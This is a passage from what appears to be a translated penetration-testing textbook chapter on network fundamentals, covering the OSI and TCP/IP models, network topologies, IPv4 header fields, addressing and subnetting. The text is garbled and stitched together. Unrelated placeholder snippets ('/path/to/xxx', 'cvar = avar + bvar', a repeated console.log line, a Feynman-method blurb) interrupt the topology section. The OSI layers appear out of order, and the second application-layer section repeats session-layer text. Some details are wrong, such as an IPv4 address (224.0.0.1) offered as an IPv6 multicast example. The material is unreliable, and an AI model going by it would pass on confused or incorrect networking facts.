在公司中，尤其是为外部用户或客户提供 IT 服务的常见做法是使用服务提供商。云计算可以被视为这种外包的实现形式。利用这些服务提供商并与已将系统和服务交付给它们的组织合作，会为进行安全评估或渗透测试带来特定的挑战。因此，了解这些外部服务提供商的工作方式至关重要。

## 通信模型

我们通过系统的地址来访问它们。问题是，每个系统会拥有多个地址。这些地址最好按照所属协议的功能进行分组。第一种通信模型，从我们将要讨论的内容以及历史的角度来看（它本质上最先出现），更具概念性而非严格实用性。我将随后提供一个实用的模型。

这些通信模型被划分为层，层是相互堆叠的。由于它们呈现为层级堆叠，你常常会听到它们被称为 `网络栈` 或 `协议栈`。需要注意的一个重要方面是，这些层是独立的，功能各异。当两个系统通信时，每个系统都有这些概念层，层 C 在第一个系统只能与层 C 通信，而不能与第二个系统的层 B、A 或 D 通信，因为两侧层 C 的协议匹配。其他层也同理。例如，你可以在 Figure 2.1 看到一组网络头信息。该头信息在发送方所在层/功能生成的，只能被接收方相同层/功能读取。



**FIGURE 2.1** 网络头信息

当我们逐一介绍这两种通信模型时，我会讨论每一层存在的功能以及该层上的协议。完成后，你将拥有两种不同但相似的方式来理解协议在系统之间如何通信，以及系统/应用之间的消息如何组合。

将网络通信功能划分为层意味着功能化（模块化）。这使得可以从协议链中提取某一协议并插入其他协议。相同的协议可以在以太网、`SONET` 或帧中继等不同介质上工作。这些协议虽然提供相同的能力，但实现方式各异。这是因为每一层的功能被抽象化，层之间可以在不需要知道细节的前提下进行通信，因为功能已知。具体的协议并不重要，关键在于每一层都有许多不同的协议，无论使用哪种模型。

### 开放系统互联

在 1970 年代末之前，通信系统使用专有协议，这使得概念化正在发生的事情变得困难。每个协议都以不同的方式定义通信。1970 年代末，国际标准化组织（ISO）启动了定义通信标准的过程，旨在提升不同供应商之间的互操作性。如果功能被概念性拆分，接口点更清晰，因而更易交互。

1978 年，首次发布了一个初始模型。经过修正后，它被正式发布为 `OSI 模型`。虽然曾有人担心该模型的复杂性以及其实际实现的可能性，但它仍然是帮助明确网络栈中功能边界的可靠模型。`OSI 模型` 包含七层。网络专业人员在指代特定功能时，常用层编号来表示。我们稍后会看到这如何操作。

Figure 2.2 展示了 `OSI 模型` 的七层，将在随后详细说明。栈的底层是物理层，向上工作直至我们讨论应用层直接使用的协议。



**FIGURE 2.2** OSI 模型的七层


由于消息是从应用层向下创建的，我们将从上往下依次讨论每一层的角色和功能。虽然记忆层顺序的记忆法通常从下往上，但只要记住任意顺序并能对应每层的功能，你就已经具备了必要条件。

## 应用层（第 7 层）

应用层最近位于终端用户之处。这并不意味着它就是应用本身。我们讨论的是协议。应用层协议管理应用的通信需求，可能识别资源并协助与之交互。例如，超文本传输协议（HTTP）是应用层协议，负责在客户端和服务器之间协商资源（页面等）的获取。

## 物理层 (Layer 1)

这一层可能不言自明。这是所有管理物理通信的协议。`10BaseT`、`10Base2`、`100BaseTX` 和 `1000BaseT` 都是物理层协议的例子。它们规定了线路上脉冲的处理方式。

## 数据链路层 (Layer 2)

另一个需要应对的地址是媒体访问控制 (MAC) 地址。这是二层地址，用于标识网络中的网络接口，以便在本地网络上将系统之间的通信传递。地址解析协议 (ARP)、虚拟局域网 (VLAN)、以太网 (Ethernet) 和帧中继 (Frame Relay) 是数据链路层协议。它们负责格式化数据以便在传输介质上发送。

## 网络层 (Layer 3)

网络层负责将消息从一个端点传递到另一个端点。它通过处理地址和路由来实现这一点。IP 是一种在该层上存在或运行的协议。

## 传输层 (Layer 4)

传输层负责为传输分段消息。传输层还负责通信的复用。TCP 和 UDP 都是传输协议。这些协议使用端口进行地址，因此接收系统知道将流量传递到哪个应用程序。

## 会话层 (Layer 5)

会话层在端点之间管理通信，以维护应用程序（客户端或服务器）的通信。远程过程调用 (RPC) 是会话层的一个功能示例。文件共享的组件也位于会话层，因为端点之间的通信协商需要在此层进行。应用层负责管理资源，而会话层负责确保文件等数据成功传输并完整。

## 表示层 (Layer 6)

表示层负责为应用层准备数据。它确保传递给应用的数据格式正确，以便被消费。当系统通信时，两端之间可能存在格式不一致的问题，表示层确保数据格式正确。因此，ASCII（美国信息交换代码）、Unicode 以及 EBCDIC（扩展二进制十进制代码）等字符编码格式都位于表示层。此外，JPEG 格式也被认为位于表示层。

## 应用层 (Layer 7)

应用层负责管理资源，而会话层负责确保文件等数据成功传输并完整。

OSI 模型的一个问题在于，有时难以将协议准确映射到七层。问题常出现在会话层和应用层之间。例如，安全壳 (SSH) 协议在哪一层？是会话层，因为它最终管理会话，还是表示层，因为它包含加密机制并进行协商？其他协议似乎存在于层与层之间。例如，ARP 被认为在数据链路层运行，但它需要了解网络层，因为它在两层之间提供地址桥梁。

不过，模型在概念化时会有帮助。例如，你家里可能有一个让人困惑的设备。你可能称它为路由器，也可能听别人这么说。问题是路由是三层功能（如前所述），而设备中还有严格二层的功能，比如交换端口在本地网络上传输消息，而不涉及路由。此外，设备完全可能不进行路由，而是桥接到提供商的网络。这取决于设备的工作方式以及提供商对设备的期望。正是在这里，理解不同层的作用有所帮助。你可以更好地定位可能的问题，因为你可以隔离功能。

### TCP/IP 架构

20 世纪 60 年代末，ARPANET 首次被开发并实施。随后几年，网络规模迅速扩大，远超 1968–69 年最初仅有两三个节点的规模。随着更多系统接入网络，负责网络管理和协议开发的工程师们积累了大量经验。最初的协议是 1822 协议，用于向接口消息处理器 (IMP) 发送通信，IMP 是一台配备专用接口的大型计算机，充当消息网关（可视作原始路由器）。1822 协议随后被网络控制程序 (NCP) 取代。

到 1983 年，经过多年的发展，NCP 被完全替换为如今常被称为传输控制协议 (TCP) / 互联网协议 (IP) 的协议套件。TCP/IP 协议栈内部协议使用方式的描述与 OSI 模型的描述略有不同。TCP/IP 实现后，协议的概念设计被描述出来。因此，这个套件有时被称为 `model`，也可能被称为 `architecture`，因为它是对已建成设计的描述，而非纯概念。OSI 模型完全是概念性的，并不描述任何具体事物。

TCP/IP 架构的设计比 OSI 模型更为简洁，这也是其即时差异所在，反映了已建成的设计与 OSI 的概念设计之间的区别。OSI 模型为了兼容多种协议和设计，必须保持抽象和灵活，因而被划分为前文所述的七个功能类别。而 TCP/IP 作为已建成的定义，仅包含四层。

这并不意味着 OSI 模型与 TCP/IP 架构之间没有关联。正如你在 `Figure 2.3` 可以看到的，两者有很多相似之处。



**FIGURE 2.3** The TCP/IP architecture layers

你会注意到相似之处。首先，两者都有 Application 层。其次，都有 Transport 层。Internet 层和 Network 层名称非常相似。基本上，OSI 模型的 Session、Presentation 和 Application 层被合并到 TCP/IP 模型的 Application 层。同时，OSI 模型的 Physical 和 Data Link 层被合并到 TCP/IP 模型的 Link 层。合并后的层在 TCP/IP 模型中仍然保留相同的功能。概念上，TCP/IP 模型更易于理解。任何与应用通信相关的内容，包括会话管理和数据格式化，都位于 Application 层。同样，在 TCP/IP 模型中，Physical 层和 Data Link 层被合并。

无论你更倾向于哪种模型来思考网络，你都会发现协议通常不会跨越多个层。它们被设计用于满足特定功能，这通常会精准地落在每个模型的某一层。

在本章余下部分以及我在实际工作中经常遇到的情况，提到“层”时，通常指的是 OSI 模型而非 TCP/IP 架构。

## Topologies

# 网络拓扑模型

进入`/path/to/xxx`目录，找到`xxx.json`。

在表达式`cvar = avar + bvar`中，加法运算符（`+`）将`avar`与`bvar`相加，得到它们的和`cvar`

在`List.of(arg0, arg1, arg2)`中，`List`接口的工厂方法`of()`接受一系列的元素，返回包含它们的只读列表。

之后我们这样调用`cmd`命令：`cmd arg0 arg1 arg2`。

```
if (condVar > someVal) {console.log("xxx")}
```

## Bus Network

A bus network, as shown in Figure 2.4, consists of a single network cable to which every device on the network connects. A bus is a communication channel. You may find a bus inside your computer to communicate between channels. In our case, it's a communication channel (a single network cable) that allows the communication between multiple computers. The way some bus networks work is by using a coaxial cable with T‑connectors. The T‑connector provides a way to extract the signal from the bus in order to provide connectivity to the systems on the network. This type of bus network requires something on the end of the cable to keep the signal on the wire. These electrical devices are called `terminators`. You can see the blocks on the end of the bus. They keep the signal from reflecting back onto the wire, causing cancellation of the signal.

What you will notice with the bus network is that there is no mediating device. All of the computers are connected directly to one another by means of that single network cable.



**FIGURE 2.4** Bus network

## Star Network

When you see a diagram of a star network, it will often look similar to the bus network. The difference between the bus and the star network, however, is that there is a mediating device between all the devices. This may be a hub, if you have a very old network, which is a dumb electrical repeater, or you may have a switch. You can see a traditional diagram in Figure 2.5. In the case of this diagram, the central line you see, which looks like a bus, is really a switch or a hub. These devices will then send the signals that come in back out to the other devices. In the case of a hub, every device on the network will get it. If your network uses a switch, the signal will be sent to the correct port.



**FIGURE 2.5** Star network

And this is where the different layers are helpful. A switch, which is the most common device in a star network topology, acts at layer 2 of the OSI model. It uses the MAC address to make decisions about where traffic goes. In the case of a star network with a hub, there are the same issues as there would be with a bus network—lots of collisions where messages sent out on the wire run over other messages sent by someone else. A switch alleviates those issues because only traffic addressed to a system gets sent to that system.

## Ring Network

A ring network is similar to a bus network in the sense that all of the nodes on the network appear to be connected on a contiguous network segment. Traffic passes around the ring from system to system. You can see a logical representation in Figure 2.6. The reason it's a logical representation is because physically, this is not how these networks are wired. One type of ring network is a token ring. In a token ring network, systems are wired as though they are in a star, using multistation access units (MAUs). While they are wired that way, they don't behave like a star. This is where you should remember that these are conceptual models. The behavior, regardless of the wiring, is how the topologies are named.



**FIGURE 2.6** Ring network

Just as with a bus network, there is a problem with collisions. A token ring network avoids this problem by using a talking stick. Just as when you are sitting around a campfire in an aboriginal tribe, where only the person with the stick gets to talk, a token ring network uses a digital representation of the talking stick called a token. Only the system that has the token gets to talk. If there is no system that needs to send a message, the token gets passed from system to system. When a system needs to talk, it has to wait for the token to get passed around to it. This will theoretically avoid the problem with collisions except that sometimes the token gets lost, which means a new token has to get generated. After the new token gets generated, it's possible for the old token to suddenly get “found” again, meaning there are two tokens on the network.

In spite of a ring network behaving like a bus network, there isn't a need for terminators as there is in a bus network. The hardware necessary to have the network function as though it were in a ring configuration takes care of the problem of echoes back to the wire.

## Mesh Network


在另一种拓扑中，系统之间直接相互连接。图 2.7 展示了一个示例。这看起来有点像环形布线，但实际上更接近对等网络。若两台系统并非直接相连，则从一台系统到另一台系统必须经过其他系统。网状网络通常还能避免总线网络的另一个潜在问题：如果位于总线网络中部的系统发生故障，则可能导致整个网络随之失效。该系统本质上相当于一个终结器，使电信号无法通过它继续传播。如果网状网络中某台系统发生故障，通常仍会有其他通路可以连通两台系统。



**图 2.7 网状网络**

在网状网络中，虽然你可以用多种方式将系统连接在一起，但尽管网络的环形设计看似规整，个别故障仍有可能使网状网络中的节点被隔离。解决之道是增加连接。系统之间的通路越多，出现灾难性通信故障的概率就越低。你可以持续增加连接，直到每个系统都与网络中其他所有系统直接相连。图 2.8 展示了这类设计的一个示例。图中所示即为所谓 `full mesh network`（全网状网络）：网络中的每个系统都与其他所有系统建有连接。



**图 2.8 全网状网络**

- [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者**Richard Feynman**。

1. 运用费曼技巧，你只需花上`20 min`就能深入理解知识点，而且记忆深刻，*难以遗忘*。

```
if (condVar > someVal) {console.log("xxx")}
```

- 应对该挑战的几种方法。其中之一，如果你对开关有一定控制权，是告诉开关将某个端口的流量镜像到另一个端口。然后，你需要将发起攻击的系统连接到镜像端口。另一种方法是欺骗开关，使其将流量发送到你，这涉及到后续章节将介绍的攻击方法。

## IP

进入网络层后，我们会接触到 IP。当然，网络层还有其他协议，例如 Internetwork Packet Exchange（IPX），但因为 Internet 基于 IP 及其相关协议运行，我们将专注于 IP。随着每一层传递，会为报文添加一段特定于处理该报文的协议的数据，这些数据称为 `headers`。每个协议拥有自己的 header 集合，随后会附加到报文上，形成全新的 PDU。对于 IP，这种 PDU 被称为 `packet`。你可能会听到网络上每一段数据都被称为 `packet`，但在技术层面上，来自 IP 头部的报文才是 packet。

地址也是需要考虑的方面。网络工程师通常很熟悉地址，但了解地址由什么构成是有价值的。地址关联的还有子网掩码。子网掩码可能难以理解，但一旦掌握一些数学技巧，就会变得容易。子网掩码还有几种不同的表示方式，你会经常看到这两种写法。

当前已有两个 IP 版本在使用。最常见的是第 4 版，即 IPv4。过去二十多年我们一直在向第 6 版迁移，但尚未完全完成。现代设备和操作系统全部支持 IPv6，因此在你日常交互的大多数系统中都会看到 IPv6 地址。IPv6 与 IPv4 存在一些差异，其中最显著的是地址空间的规模。

IP 被视为一种 best‑effort 协议。它尽力将数据包从源地址送到目的地址，但并不保证它们一定能到达。它通过提供地址来促进传输。

### Headers

Internet Engineering Task Force（IETF）负责维护所有与协议相关的文档。当个人或更常见的群体想要提出新协议或对现有协议进行扩展时，他们会撰写所谓的 `request for comments`（RFC）文档。IETF 不仅维护 RFC，还管理它们的批准过程。第一个 RFC 于 1969 年撰写，内容是关于用于将计算机系统与 ARPANET 相连的 IMP（接入节点）的主机软件。当时 IETF 尚未成立，但使用 RFC 仍是制定规范和标准的过程。

IPv4 的 RFC 于 1981 年发布，编号为 791。它定义了 IPv4 的工作方式以及 IPv4 使用的头部字段。图 2.9 展示了从网络上捕获的 IPv4 报文的头部集合。这正是 RFC 中以表格形式呈现的相同头部集合。表格形式的优势在于可以清晰看到每个字段的大小。



**图 2.9 IP 头部**

下面列出了各个头部字段的描述及其长度：

*   **Version**   该字段指示该数据包使用的 IPv4 版本，为 4 位。

*   **Header Length**   该字段指示 IPv4 头部包含的字（32-bit word）数量。由于头部基于 32-bit 字（即 4 字节），可以通过将该值乘以 4 得到字节数。在此示例中，头部为 20 字节（5 字），这也是 IP 头部的常见长度。

*   **Type of Service**   RFC 称之为 ToS 字段，也称为 differentiated services field。该字段帮助网络元素在 QoS 决策中对报文进行优先级排序，降低其他报文的优先级。它是 8 位（1 字节）的字段。

*   **Total Length**   该字段表示报文的总长度，包括 IPv4 头部及随后的数据。它不包括之后添加的层 2 头部。该字段长 2 字节，允许的最大报文长度为 65,535 字节。

*   **Identification**   当数据量超过长度字段所能容纳的最大值时，需要进行分片。所有发送的报文都会设置该字段，但在有分片时才有意义。所有分片共享相同的 identification 值。

*   **Flags**   该字段占 3 位。其中一位保留，第二位指示报文是否可以分片（即 DF 位）。若设置，表示不分片。第三位用于指示是否还有后续分片。若设置，表示还有更多分片；若为 0（未置位），则是最后一个分片。自包含的报文（无需分片）则该位为 0。

*   **Fragment Offset**   该字段长 13 位，指示数据在数据包中的对齐位置，帮助接收系统在拼接分片时知道如何组合。该值以双字（8 字节）为单位。

*   **Time to Live**   TTL 字段指示报文在网络中存活的时间，理论上以秒计。但每个网络节点在处理报文时都会递减该值。由于报文可能在多个节点之间传递多个秒，最初的 TTL 定义已不再适用，实际意义转化为报文可经过的网络节点（路由设备）数量。当值为 0 时，报文被丢弃，并向发送者返回错误信息。该字段长 8 位。

*   **Protocol**   该字段是一个数值，指示接下来的传输层协议。它是 8 位的，告诉接收系统在传输层头部中查找哪些字段。在图 2.9 所示的数据包中，该值为 17，表示是 UDP 消息。

*   **Checksum**   该字段为 16 位，用于验证头部完整性。它是 16 位词的 1's complement 求和。

*   **Source Address**   该字段是发送报文的 IPv4 地址，长度为 4 字节。

*   **Destination Address**   该字段是目标 IPv4 地址，同样长度为 4 字节。

### Addressing

IP 版本 4 地址长度为 4 个字节。它们通常以点号分隔的形式显示（例如 192.168.1.1），因此有时被称为 `dotted quads`（点分四段）或 `dotted decimal` 表示法。由于每个值为 8 位，可能的取值范围是 0 到 255。并非所有值，尤其是前两个字节中的值，都被使用。有一些地址被保留用于特殊用途。例如，地址范围 127.0.0.0–127.255.255.255 保留用于回环地址。这些地址指向它们所在的主机。回环接口确保系统始终有一个网络接口，并允许在不向系统外部发送流量的情况下通过网络进行测试。常见的回环地址是 127.0.0.1，但该范围内的任何地址都可以使用。

RFC 1918 还划定了用于私有网络的 IP 地址范围。按照惯例，这些地址在 Internet 上不可路由。大多数网络会阻止这些范围的源地址进入其空间，因为它们不应来源于网络外部。用于任何没有公共 IP 地址的网络的私有地址范围包括 10.0.0.0–10.255.255.255、172.16.0.0–172.31.255.255 和 192.168.0.0–192.168.255.255。

此外，还有其他地址范围被保留。224.0.0.0 到 239.255.255.255 用于组播消息。240.0.0.0 及以上的地址也被保留，目前尚未使用。

IPv4 地址数量受限的一个原因是 IPv6 的出现。IPv4 大约提供 40 亿个地址。这包括所有地址。但我们立即剔除 1600 万个地址，因为 10.0.0.0 私有地址块。随后又剔除超过 2.68 亿个高于 240.0.0.0 的地址。可以看出 IPv4 的地址空间很快就被消耗殆尽。你可能也注意到，连接 Internet 的设备数量呈近乎指数级增长。应对办法是在网络内部（尤其是家庭网络）使用私有地址范围。

IPv4 使用 4 个字节，而 IPv6 使用 16 字节。由于以点分四段的形式书写 IPv6 地址会很笨拙，IPv6 地址采用不同的表示方式。由于一个字节可以用两位十六进制数字表示，IPv6 地址通常以这种形式出现，节省空间和输入时间。IPv6 地址包含 16 个字节，因此最长的地址会出现 32 个字符。不过，完整地址通常按字节对分段，并在每段之间使用冒号（:）分隔。例如，我的系统有一个 IPv6 地址 fe80::62e3:5ec3:3e06:daa2。

在 IPv6 地址中，你会看到冒号对之间没有任何字符的情况，这并非错误，而是省略号，表示中间的所有字节均为 0。完整地址为 fe80:0000:0000:0000:62e3:5ec3:3e06:daa2，省略额外的 0 更易读。

IPv6 有三种地址类型。第一种是单播（unicast），指代单个系统。Anycast 地址是一组共享同一地址的系统集合。发送到 Anycast 地址的消息会被送到该组中最近的主机（依据路由规则）。Anycast 地址的格式与单播地址相同。组播地址看起来与其他地址相似，但其格式取决于它是组播地址以及使用的应用。例如，你可能会看到组播地址 224.0.0.1。

### 子网

子网划分可能难以理解，但它是一个重要概念。原因之一是你可能需要知道哪些地址属于你的目标子网。如果子网边界搞错，可能会去测试不属于目标的系统，从而引发很多麻烦。因此，我们在此花时间解释子网是什么以及如何确定子网边界。这涉及一些简单的数学计算，但一旦解释清楚，应该会变得很容易。

IP 地址通过连续的地址聚合成网络，这一点适用于 IPv4 与 IPv6。这样路由更简便，路由表不必为每个单独 IP 地址保存条目，而是记录聚合块。由于这种设计，IP 地址被划分为主机部分和网络部分。这种划分帮助系统判断哪些地址是本地的，从而保持通信在本地网络内。系统通过将子网掩码（subnet mask）与 IP 地址配合来区分本地网络和非本地网络。

子网掩码也是 32 位长度，在 IPv4 中以点分四段的形式表示。要确定 IP 地址中哪些部分属于网络，需要查看子网掩码中位为 1 的位。为了更好地理解，我们来看一个子网掩码的二进制表示：

*   11111111.11111111.11111111.10000000

